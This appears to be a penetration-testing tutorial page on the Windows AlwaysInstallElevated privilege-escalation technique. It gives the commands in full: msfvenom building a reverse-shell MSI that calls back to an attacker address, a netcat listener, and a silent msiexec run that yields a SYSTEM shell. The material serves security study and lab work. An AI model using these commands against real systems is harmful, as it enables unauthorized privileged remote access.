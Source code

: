 # Always Install Elevated

#### **Overview**

The **Always Install Elevated** policy is a setting in Windows that allows standard users to install applications with elevated privileges. When this policy is enabled, any application installation initiated by a standard user can run with administrative rights, effectively bypassing User Account Control (UAC) prompts.

#### **How It Works**

When the **Always Install Elevated** setting is enabled, the following occurs:

1. **Elevation of Installations**: Standard users can install applications without being prompted for administrator credentials. This means that any MSI (Microsoft Installer) package executed will run with elevated permissions.
2. **UAC Bypass**: Users do not see the standard UAC prompt, which can prevent them from being aware of the risks associated with the installation of potentially harmful software.

#### **Creating and Executing a Malicious MSI Package for Reverse Shell Access**

1. **Generate the Malicious MSI Package**:
   * Use `msfvenom` to create a malicious MSI file that will initiate a reverse shell connection back to your listener. In this example, the local host (LHOST) is set to `10.10.10.10`, and the local port (LPORT) is set to `4444`.
   *   The command to generate the MSI package is as follows:

       ```bash
       dollarboysushil@kali$ msfvenom -p windows/shell_reverse_tcp lhost=10.10.10.10 lport=4444 -f msi > dbs.msi
       ```
2. **Transfer the MSI File**:
   * After generating the `dbs.msi` file, transfer it to the target machine where you want to execute it.
3. **Set Up a Netcat Listener**:
   *   On your attacking machine, set up a netcat listener to catch the reverse shell once the MSI package is executed:

       ```bash
       nc -lnvp 4444
       ```
4. **Execute the MSI Package**:
   *   On the target machine, run the following command to execute the malicious MSI package quietly, without displaying any prompts or restarting the system:

       ```cmd
       C:\> msiexec /i c:\users\dollarboysushil\desktop\dbs.msi /quiet /qn /norestart
       ```

After executing this command, the target machine will connect back to your listener, providing you with a reverse shell with system privileges.
